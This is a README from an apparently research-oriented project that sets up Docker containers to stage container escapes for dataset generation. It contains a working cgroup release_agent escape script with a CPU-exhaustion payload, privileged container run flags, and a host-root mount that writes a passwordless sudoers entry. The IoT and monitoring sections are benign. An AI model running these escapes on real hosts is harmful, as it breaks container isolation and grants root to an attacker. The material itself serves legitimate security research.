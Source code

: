 # Escape Containers

The directory has the containers that are used to launch a container escape and associated attack.  It also has other background containers.  The container escapes were derived from the following.

https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/


## Denial of Service Container

Get the latest ubuntu image

```bash
docker pull ubuntu
```

Using original ubuntu, install nano, add escape.sh, then commit

```bash
docker run --privileged --name=ESCAPE_A --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu bash
```

From within container

```bash
apt-get update
apt-get install nano
nano escape.sh
#!/usr/bin/bash
...
(save)
chmod +x escape.sh
```

In another host terminal, saved current ubuntu to ubuntu_escape image.  The ubuntu_escape will have the escape.sh

```bash
docker commit ESCAPE_A ubuntu_escape
```

You can now exit the ubuntu container.

From a host terminal, start the ubuntu_escape container with reduced security.

```bash
docker run --name=ESCAPE_A --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu_escape bash
```

Finally, from other host terminal, execute escape.sh in ubuntu_escape.  This launches the attack (you can use top to see the increased CPU usage).  Note that [scenarioDos.py](./src/scenarioDos.py) uses this to launch the attack.
```bash
docker exec -it ESCAPE_A /escape.sh
```

### Escape

In the container, create escape.sh file with following

```bash
#!/bin/sh
mkdir /tmp/cgrp
mount -t cgroup -o memory cgroup_memory /tmp/cgrp
mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
cat stress.txt > /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

### Attack

In the container, create stress.txt file with following

```bash
#!/bin/bash
stress() {
  (
    pids=""
    cpus=${1:-1}
    seconds=${2:-60}
    echo loading $cpus CPUs for $seconds seconds
    trap 'for p in $pids; do kill $p; done' 0
    for ((i=0;i<cpus;i++)); do while : ; do : ; done & pids="$pids $!"; done
    sleep $seconds
  )
}
stress 2 20
```

## Privilege Escalation Container

Create container from alpine image.

### Escape

The privilege escape is really accomplished by the mounting of a volume during container building.

```
FROM alpine
ENV WORKDIR /privesc
RUN mkdir -p $WORKDIR
VOLUME $WORKDIR
WORKDIR $WORKDIR
```

Execute the following command to build container.

```bash
docker build -t priv-container .
```

You can execute the following command to run the container.  Note that this is done in the [scenarioPrivesc.py](../src/scenarioPrivesc.py).

```bash
docker run --name ESCAPE_B -v /:/privesc -it priv-container /bin/sh
```

### Attack

The attack assumes a user testuer aleady exists that has password requires sudo privilege (the attack changes this to password-less).  From within the container, the following is executed.

```bash
echo "testuser ALL=(ALL) NOPASSWD: ALL" > /privesc/etc/sudoers.d/010_testuser-nopasswd
```


## Prometheus-Grafana Container

The prometheus-grafana container is take from awesome-compose and can be started and stopped with the following.  Note that this is done in the [scenarioGrafana.py](../src/scenarioGrafana.py).

```bash
sudo docker-compose -f prometheus-grafana/docker-compose.yml up --no-start
sudo docker-compose -f prometheus-grafana/docker-compose.yml start
```

```bash
sudo docker-compose -f prometheus-grafana/docker-compose.yml stop
sudo docker-compose -f prometheus-grafana/docker-compose.yml rm -f
```

## Internet of Things Container

The IoT container used for the datasets is described here.  We do not provide the container because it exceeded github's maximum file size.

The IoT container is based on the ubuntu image.  It was then configured to setup the tunslip interface to communicate with an IEEE 802.15.4 wireless dongle over /tty/ACM0.  The dongle is programmed with the contiki-ng rpl-border-router example using TSCH.

The remote endpoints are nRF52480 boards programmed with the contiki-ng rpl-udp example using TSCH.  The endpoints take a temperature sensor reading every 3 seconds and send to the UDP server running in the Docker IoT container.

This container setup works for both the Umbrella edge device (built-in dongle) and the Linux Raspian VM (USB attached dongle).
